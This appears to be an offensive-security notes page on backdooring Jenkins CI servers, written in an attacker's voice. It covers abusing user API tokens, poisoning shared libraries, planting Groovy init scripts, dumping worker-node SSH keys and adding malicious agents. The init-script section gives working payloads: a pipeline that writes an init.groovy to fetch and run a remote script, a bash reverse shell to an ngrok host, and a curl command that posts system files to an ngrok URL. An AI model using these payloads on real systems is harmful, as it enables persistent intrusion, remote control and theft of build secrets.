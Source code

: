 # Backdooring

- Backdooring helps attacker to gain access over systems over long period of time ( sometimes bypassing the security checks )
- A higher level privileges might be required to do the changes in configuration



## User issued Jenkins API Tokens

- It is possible for users to generate their own API tokens.
- Can be used to bypass other authentication process ( Form based Authentication / 2FA authentication )
- Usually undected ( unless the usage count is not tracked )
- As an attacker we need to make sure, we need to give right priviliges to these compromised users in case Matrix Authorization Strategy is enabled.

```
curl http://username:token@127.0.0.1:8080
```
<img src="api-token-access.png">

## Using Shared Libraries

- Jenkins shared library is popular where large number of jenkins jobs or pipelines uses a repeated code in pipeline script. 
- The developers creates certain modular functions containing the repetitive code and then reuses across various projects/pipelines/jobs.
- Personal Research : https://oxhat.blogspot.com/2022/07/attacking-backdooring-and-exfiltrating.html
- There are 2 ways we can backdoor the shared pipelines
  1. Add a backdoor inside a shared library codebase ( Jenkins Admin Access Not Required )
``` Groovy
@Library("shared-libraries") _
pipeline{
    agent any
    stages {
        stage("example"){
            steps{
                sh "echo Just a job2"
                helloWorld(name:"User2",dayOfWeek:"Tuesday")
            }
        }
    }
}
```
  - <img src="shared-library-code.png">
  3. Change the shared library location to an attaker controlled shared library ( Jenkins Admin Access Required )
  - <img src="shared-library-conf.png">

## Groovy init scripts

- We can try this technique both from pipeline / after controller's compromise.
- We need to add ```init.groovy``` file with our payload at home directory ( the directory that contains other config files pf Jenkins, sometimes referred as $JENKINS_HOME )
- To trigger this, we would need a restart.
- We have couple of options what we can do with our backdoor scripts
  - Get a reverse shell - We can run this via pipeline
``` Groovy
pipeline{
    agent any
    stages{
        stage('Adding a groovy init file'){
            steps{
                sh '''
                    echo "'wget -O /tmp/revshell.sh  https://gist.githubusercontent.com/dibsy/00d346575659f977b353f95a7064e966/raw/dc89f902db2c81fe96c2f5a102e16c25b8308983/temp-cmd.txt'.execute()" > /var/lib/jenkins/init.groovy
                    echo "sleep(5000)" >> /var/lib/jenkins/init.groovy
                    echo "'sh /tmp/revshell.sh'.execute()" >> /var/lib/jenkins/init.groovy
                    '''
            }
        }
    }
}
```
  
  
  
  
init.groovy
```
"wget -o /tmp/revshell.sh  http://https://gist.githubusercontent.com/dibsy/temp-cmd.txt".execute()
"sh /tmp/revshell.sh".execute()
```
revshell.sh
```
bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/13520 0>&1
```

<img src="backdoor-rev.png">

  - Exfiltrate data - You can exfiltrate system files and automate a process to exfiltrate all jenkins configuration files, secrets,
exfil.groovy

```
"curl -X POST https://6aee-91-166-172-59.ngrok-free.app -d @/etc/hosts".execute()
```

<img src="backdoor-exfil.png">

  - Use other persistent techniques
    - Add a cronjob
    - Add another user

## Worker-Node SSH Keys

- We can dump the SSH keys from the Jenkins Controller
- Once we have the SSH keys we can montitor the logon events and exfiltrate the build data or snoop on it for debug logs or credentials.

## Addling Malicious Worker-Node 

- In this process we update / add a new configuration with an attacker controller worker node.
- We can update the Worker-Node configuration to point to that node.
- This is possible either adding a new agent or updating the ssh keys used for configuration.

<img src="configure-agent.png">

